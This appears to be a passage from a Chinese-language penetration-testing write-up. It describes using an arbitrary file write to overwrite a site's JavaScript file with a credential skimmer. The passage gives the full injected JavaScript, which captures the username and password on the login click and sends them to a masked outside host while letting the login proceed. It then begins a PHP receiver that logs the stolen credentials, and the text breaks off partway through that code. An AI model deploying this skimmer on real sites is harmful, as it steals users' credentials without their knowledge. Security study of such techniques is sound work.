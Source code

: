因为修改静态文件相对安全，不会对服务的正常运行产生影响，这里先利用任意文件写，覆盖某个 js  文件，不改变原功能的前提下，劫持用户输入的账号密码并回传。

js 代码：

window.onload = function(){

    document.getElementById('btnSubmit').onclick = function(){

     var username = document.getElementById('txtUserName').value;

     var password = document.getElementById('txtPassword').value;

  console.log(username);

  url = 'http://xxxx.xxxxxxxx.com:xx/xxxxxx/xxxxxxxx.php?' \+ 'username=' \+
username \+ '&password=' \+ password ;

  var xhr = new XMLHttpRequest();

  xhr.onreadystatechange = function(){

      if( xhr.readyState == 4){

           if( xhr.status >= 200 && xhr.status < 300 || xhr.status == 304){

               info.innerHTML = xhr.responseText;

            }

       }

  };

  

  // 每次需要发请求需要做两步：

  xhr.open("get", url, true);

  xhr.send(null);

  sleep(5);

  

  if(!checkForm()) return false;

  __doPostBack('btnSubmit','');

 };

};

对应的后端 php:

<?php

$username = $_GET['username'];

$password = $_GET['password'];

$time = date("Y-m-d h:i:sa");

if($username && $password) {

    $myfile = fopen("xxxxxx.txt", "a") or die("Unable to open file!");
